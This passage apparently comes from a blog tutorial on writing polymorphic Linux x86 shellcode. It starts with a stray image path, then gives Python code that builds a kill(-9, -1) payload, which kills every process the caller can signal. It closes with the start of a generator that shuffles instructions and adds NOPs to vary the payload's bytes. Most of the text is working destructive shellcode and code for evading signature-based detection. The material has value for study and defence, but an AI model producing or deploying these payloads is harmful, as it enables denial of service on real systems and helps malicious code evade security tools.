     ax_value = n * dl_value;

    val = socket.htons(ax_value);   # now the value is in network byte order
                                    # like the way it would be stored into
                                    # the stack
 
    hex_val = format(val, 'x');     
    mov_ax = "\\x66\\xb8\\x"+hex_val[0:2]+"\\x"+hex_val[2:4];
    mov_dl = "\\xb2\\x"+format(dl_value, 'x');
    div_dl = "\\xf6\\xf2";          

    code = mov_ax+mov_dl+div_dl;

    if mov_to_cl == True:
        code += "\\x89\\xc1";       # mov ecx, eax

    return code;

{%endhighlight%}

![Kill with math]({{site.url}}/assets/images/kill_math.png)

This line will create the _kill them all_ shellcode with the div strategy.
Please note that we first invoke the CL set and then AL value.

{%highlight python%}
shellcode="\\x31\\xc0\\x31\\xdb\\x31\\xc9"+kill_div_for_mov(9, True)+kill_div_for_mov(37, False)+"\\x4b\\xcd\\x80";
{%endhighlight%}

{%asciicast 198421 %}

### The polymorphic generator for kill(-9, -1)

Here it is the python script using the described strategies to create a
polymorphic version of kill -9, -1 shellcode.

{%highlight python%}
#!/usr/bin/env python

from random import randint, shuffle;
import sys, getopt;
import socket;

def help():
    print sys.argv[0] + " [options]"
    print "Valid options:"
    print "\t-h, --help: show this help"
    print "\t-s, --shuffle: use SHUFFLE strategy on operands"
    print "\t-n, --nop: add a random number of NOPs to the shellcode"
    print "\t-N, --nop-equivalent: add some NOP equivalent instruction to the code"
    print "\t-m, --math: use math strategy for MOV"
    return 0

def kill_shuffle():
    init_blk =["\\x31\\xdb", "\\x31\\xc9", "\\x31\\xc0"];
    setup_blk=["\\x4b", "\\xb1\\x25", "\\xb0\\x09"];
    shuffle(init_blk);
    shuffle(setup_blk);

    return "".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80";

def kill_nop_dope():
    init_blk =["\\x31\\xdb", "\\x31\\xc9", "\\x31\\xc0"];
    setup_blk=["\\x4b", "\\xb1\\x25", "\\xb0\\x09"];
    n = randint(0, 3); # our shellcode is 13 byte lenght, we can expand it no more than 3 bytes
    nop_blk = ["\\x90"]*n